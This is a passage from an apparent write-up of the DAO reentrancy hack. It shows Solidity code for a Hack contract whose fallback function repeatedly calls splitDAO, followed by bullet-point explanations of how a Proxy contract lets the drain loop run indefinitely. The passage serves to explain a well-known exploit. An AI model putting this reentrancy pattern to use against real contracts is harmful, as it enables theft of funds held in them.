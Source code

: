 ```javascript
    calls_to_make = 1;
  }

  function makeSplitProposal() {
    // 0x93a80 == 604800 == 1 week in seconds
    bytes memory transactionData;
    proposalID = DAO.newProposal(this, 0x0, "Lonely, so Lonely", transactionData, 0x93a80, true);
  }

  function voteYesOnProposal() {
    DAO.vote(proposalID, true);
  }

  function fillProxy() {
    uint balance = DAO.balanceOf(this);
    DAO.transfer(address(proxy), balance);
  }

  function splitDAO() {
    calls += 1;
    DAO.splitDAO(proposalID, this);
  }

  function runHack(uint _calls_to_make) {
    calls = 0;
    calls_to_make = _calls_to_make;
    proxy.empty();
    splitDAO();
  }

  function() {
    if (calls < calls_to_make) {
      splitDAO();
    } else {
      fillProxy();
    }
  }
}
```

* First, this contract file contains two contracts: A Proxy contract, and a Hack contract. The Hack contract performs the splits, and is the main entity and address that exploits the DAO. The Proxy contract is a place for the Hack contract to stash its DAO tokens before they get flushed at the end of one run through the loop. Because they're stashed in a different address, the final iteration will have no DAO tokens to zero out, and thus we can continue the hack indefinitely.
* `makeSplitProposal()`, `voteYesOnProposal()`, and `splitDAO()` (when called on its own), are all functions required to set up the hack. Since the Hack contract is the main entity that holds the DAO tokens, it must perform this setup in order to execute the hack later.
* `fillProxy()` takes the Hack contract's DAO tokens and transfers them to the address of the Proxy contract, a vital part of making the hack indefinite. As well, `proxy.empty()` returns the tokens back to the Hack contract.
* `runHack()` gets the hack started, and the fallback function `function() {...}` runs the hack until we've reached the maximum amount of calls we can make within our given gas limit.  
